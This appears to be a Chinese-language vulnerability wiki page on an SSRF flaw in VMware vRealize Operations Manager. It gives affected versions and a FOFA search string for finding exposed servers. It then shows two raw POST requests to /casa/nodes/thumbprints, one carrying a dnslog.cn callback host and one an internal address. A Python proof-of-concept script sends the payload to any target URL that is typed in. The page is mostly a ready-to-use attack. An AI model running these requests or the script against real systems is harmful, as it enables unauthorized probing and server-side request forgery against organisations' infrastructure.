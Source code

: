 <languages  />

<translate>

漏洞影響
--------

</translate>

    vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

    cloud_foundation: 4.x 3.x

    vRealize_suite_lifecycle_manager: 8.x

FOFA
----

    title="vRealize Operations Manager"

<translate>

漏洞利用
--------

</translate>

<translate> 發送如下請求包: </translate>

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["eheeyd.dnslog.cn"]

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["127.0.0.1:443/ui"]

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url, v):
        vuln_url = target_url + "/casa/nodes/thumbprints"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/json;charset=UTF-8"
        }
        data = '["{}"]'.format(Dnslog)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
            if response.status_code == 200 :
                print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
        Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
        POC_1(target_url, Dnslog)

<translate>

參考
----

</translate>

<https://mp.weixin.qq.com/s/fAYvOdmZO-daxe5FUI8wQA>